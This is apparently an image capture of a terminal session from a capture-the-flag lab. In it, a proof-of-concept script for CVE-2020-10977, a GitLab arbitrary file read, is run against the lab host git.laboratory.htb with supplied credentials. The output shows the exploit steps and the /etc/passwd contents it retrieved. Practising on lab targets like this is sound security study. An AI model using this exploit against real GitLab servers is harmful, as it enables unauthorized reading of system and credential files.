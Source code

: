 ```terminal
$ python3 cve_2020_10977.py https://git.laboratory.htb/ sirius password123                                                                      [169/453]
----------------------------------                                             
--- CVE-2020-10977 ---------------                                             
--- GitLab Arbitrary File Read ---                                                                                                                            
--- 12.9.0 & Below ---------------                                             
----------------------------------                                             
                                                                               
[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]            
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]                                                                                           
                                                                               
[+] Target        : https://git.laboratory.htb                                 
[+] Username      : sirius                                                                                                                                    
[+] Password      : password123                                                
[+] Project Names : ProjectOne, ProjectTwo                                                                                                                    
                                                                               
[!] Trying to Login...                                                                                                                                        
[+] Login Successful!                                                                                                                                         
[!] Creating ProjectOne...                                                     
[+] ProjectOne Created Successfully!                                           
[!] Creating ProjectTwo...                                                                                                                                    
[+] ProjectTwo Created Successfully!                                                                                                                          
[>] Absolute Path to File : /etc/passwd                                                                                                                       
[!] Creating an Issue...                                                       
[+] Issue Created Successfully!                                                
[!] Moving Issue...                                                            
[+] Issue Moved Successfully!                                                  
[+] File URL : https://git.laboratory.htb/sirius/ProjectTwo/uploads/061e9ca4d40d19c01c5ba00fcbb8daae/passwd
                                                                                                                                                              
> /etc/passwd                                                                  
----------------------------------------                                       
                                                                               
root:x:0:0:root:/root:/bin/bash                                                
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                           
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                                                          
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
```